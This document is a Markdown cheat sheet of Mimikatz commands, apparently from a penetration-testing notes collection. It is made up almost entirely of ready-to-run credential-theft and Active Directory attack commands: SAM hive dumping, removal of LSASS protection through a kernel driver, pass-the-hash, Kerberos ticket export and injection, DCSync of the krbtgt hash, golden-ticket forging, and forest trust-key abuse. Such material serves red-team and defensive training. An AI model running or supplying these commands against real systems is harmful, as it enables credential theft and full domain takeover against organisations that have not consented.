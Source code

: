 # Mimikatz

## SAM File - Local accounts

#### Save files from registry

```csharp
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\SYSTEM SystemBkup.hiv
```

```csharp
mimikatz # privilege::debug Privilege
mimikatz # token::elevate
mimikatz # lsadump::SAM /SAM:C:\Users\b3v1l\Desktop\SAM /SYSTEM:C:\Users\b3v1l\Desktop\SYSTEM
```

```csharp
lsadump::sam /system:C:\Users\b3v1l\Documents\test\sam\system /sam:C:\Users\b3v1l\Documents\test\sam\sam
```

![](../../../.gitbook/assets/image%20%28309%29.png)

## Export Certificats

```csharp
mimikatz# crypto::capi
mimikatz# privilege:debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

## Disable LSASS protection

### Manually

* Upload mimidrv.sys on the target
* Create a service task

```csharp
sc create mimidrv binpath= C:\temp\mimidrv.sys type= kernel start= demand
```

* Start the task

```csharp
sc start mimidrv
```

* Then, using mimikatz

```csharp
!processprotect /process:lsass.exe /remove
```

### Full mimikatz version

* Copy the mimikatz and sys driver on the disk
* Start mimikatz and load the driver. Disable Lsass protection

```csharp
privilege::debug
!+
!processprotect /process:lsass.exe /remove
```

## Pass the Hash

```csharp
Invoke-Mimikatz -Command '"sekurlsa::pth /user:targetaccount /domain:test.lab.local /ntlm:b38ff50
264bc43012185d82c69794a4d8 /run:powershell.exe"'
```

## Kerberos Tickets

### List tickets

```csharp
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

### Export tickets

```text
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### Pass the Ticket

```csharp
Invoke-Mimikatz -Command '"kerberos::ptt [0;9eaea]-2-0-60a10000-administrator@krbtgt-HOME.LAB.COM.kirbi"'
```

### Golden Ticket

#### Dcsync using a priv account on the dc 

```csharp
lsadump::dcsync /domain:target.domain.com /user:prod\krbtgt
```

#### Use krbtgt to impersonate anyone on the domain

```csharp
 kerberos::golden /user:Administrator /domain:target.domain.com /sid:S-1-5-21-634106289-36255656793-12345407 /id:500 /group/512 /krbtgt=dfdsfwefdccfbb7cc8eeadf7ce1 /startoffset=0 /endin=600 /renewmax:10080 /ptt
```

## DSync

{% hint style="info" %}
Replace /user:Domain\krbtgt by any username to get a specific hash
{% endhint %}

```csharp
 Invoke-Mimikatz -Command '"lsadump::dcsync /user:Domain\krbtgt"'
```

## Trust Key between Forest and Child

### Get the trusted key

```csharp
 Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.lab.test.local
```

### Get a ticket

```csharp
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:childomain.com /sid:<childomain.com SID> /sids:<main domain SID-519> /rc4:ea9815a
<trusted key hash> /service:krbtgt /target:maindomain.com /ticket:C:\temp\trust_tkt.kirbi"'
```

### Pass the ticket - SID history

```csharp
 Invoke-Mimikatz -Command '"kerberos::ptt krbtgt_tkt.kirbi"'
```

